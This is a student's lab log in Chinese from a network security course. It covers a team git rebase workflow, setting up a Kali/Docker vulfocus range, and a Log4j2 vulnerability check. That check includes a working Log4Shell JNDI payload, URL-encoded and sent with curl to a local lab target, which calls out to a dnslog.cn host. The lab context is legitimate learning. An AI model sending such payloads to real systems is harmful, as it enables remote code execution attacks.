

# 个人开发日志 -- Dalechu

---

## 2024-07-08 : 确定 git 作业流程, 开始搭建环境

### 内容

#### Git 作业流程

上午听了老师的作业要求, 我和 lihan3238 讨论了一下交作业的流程, 规范如下 :
- 小组成员基于 main 分支建立自己的工作分支
- 修改内容后, 组员先提交到自己的分支中, 再 pull request, 审核后合并到 main 分支中 ( 并处理可能存在的冲突 )
- 组员使用 git rebase 命令同步自己的分支, 维持 commit 记录的简洁和连贯性

具体流程如下 :

```
git checkout your_workspace   # 切换到你的工作分支 your_workspace

# 干完活了, 准备提交到远程仓库

git add.  # 所有修改放到暂存区

git commit -m "描述你的更改"   # 提交

git push   # 推送到远程仓库的 your_workspace 分支

#去 GitHub 上 pull request, 等组长审核, 通过之后, 你的工作就推送到 main 分支中了 : 

git checkout main   # 切换到 main 分支

git pull   # 拉取 main 最新内容到本地

git checkout your_workspace   # 切换到 your_workspace 分支

git rebase main   # 相当于将 main 内容与本地 your_workspace 结合, 并将 your_workspace 的 commit 记录跳跃到当前 main 中来, 更加简洁

git push    # 将本地的 rebase 操作同步到远程仓库
```

#### 搭建基本环境

我习惯使用 VMware 平台, kali 版本为 2024.1, 参考老师 [视频](https://www.bilibili.com/video/BV1p3411x7da?p=7&vd_source=5805c1231cd951b8c81ad0a508b22601) 中的演示.

使用命令 `apt install -y docker.io docker-compose jq` 安装 docker : 


查看 git 和 docker 版本 :



使用命令 `git clone https://github.com/c4pr1c3/ctf-games.git` 克隆 ctf-games 仓库 :


参考 [小陈的容器镜像站](https://mp.weixin.qq.com/s/jaUb7sSLDBXrU3F7crtWPA)  配置 docker 镜像源 :


拉取 docker 镜像 vulfocus :


切换到 ctf-games/fofapro/vulfocus 目录下, 执行 `bash start.sh`, 选择 host-only 网卡对应的 IP 地址 :


在宿主机浏览器上访问此 IP 地址, 默认用户名和口令均为 admin : 


### 问题

docker 镜像源, 感谢之前程老师推荐的 [小陈的容器镜像站](https://mp.weixin.qq.com/s/jaUb7sSLDBXrU3F7crtWPA). 目前仍可用.

### 参考

- [Xuyan-cmd 的实验报告 ](https://github.com/Xuyan-cmd/Network-security-attack-and-defense-practice)
- [详述 Git 的 rebase 命令使用方法](https://blog.csdn.net/qq_35246620/article/details/124718643)
- [git rebase 用法详解与工作原理](https://waynerv.com/posts/git-rebase-intro/)


---


## 2024-07-09 : Log4j2 漏洞的存在性检测和

### 内容

#### Log4j2 漏洞检测

下载 Log4j2 镜像并启动漏洞靶标 :


尝试在 URL 后补充 '/hell' 和 '/hello' :


在 kali 中执行 `docker ps` 查看正在运行的容器 :


Log4j2 对应的容器名称为 eloquent_boyd

进入容器 :

```shell
docker exec -it eloquent_boyd bash
```


发现 demo.jar 文件, 将其拷贝出来 :

```shell
docker cp eloquent_boyd:/demo/demo.jar ./
```


使用 `jd-gui` 工具反编译, 查看代码 :


确实发现漏洞


#### 漏洞可利用性检测

打开网站 http://www.dnslog.cn/ , 获取随机子域名 `95p55c.dnslog.cn` :


根据靶场容器 URL 和获取的子域名，对 payload 字段进行编码, 编码平台可使用 https://www.urlencoder.org/ .

```shell
# 编码内容 : ${jndi:ldap://ottlt5.dnslog.cn/dalechu}

# 编码结果 : %24%7Bjndi%3Aldap%3A%2F%2F95p55c.dnslog.cn%2Fdalechu%7D

# curl 命令 :
curl "http://192.168.5.132:50721/hello?payload=%24%7Bjndi%3Aldap%3A%2F%2F95p55c.dnslog.cn%2Fdalechu%7D"

```

发现四条解析记录，说明漏洞可利用 : 


### 参考

- [Kali 关闭自动锁屏功能](https://www.cnblogs.com/test-gang/p/18275596)

- [Xuyan-cmd 的实验报告 ](https://github.com/Xuyan-cmd/Network-security-attack-and-defense-practice)

- [lihan3238 的实验日志](https://github.com/lihan3238/Network-Security-Comprehensive-Practice/blob/main/0_lihan3238/%E4%B8%AA%E4%BA%BA%E5%BC%80%E5%8F%91%E6%97%A5%E5%BF%97.md)


### 备注
提交到远程仓库时不小心将 `dalechu` 打成了 `Dalechu`, 相当于新建了一个分支, 并且合并到了 `main` 分支上. 现处理如下 : 对 `Dalechu` 分支进行 git rebase, 同步其内容, 删除 `dalechu` 分支. 经过认真检查, 主分支没有被破坏, 特此记录, 下次引以为戒 ! 

---


## 2024-07-10 : 

### 内容


### 问题


### 参考

---

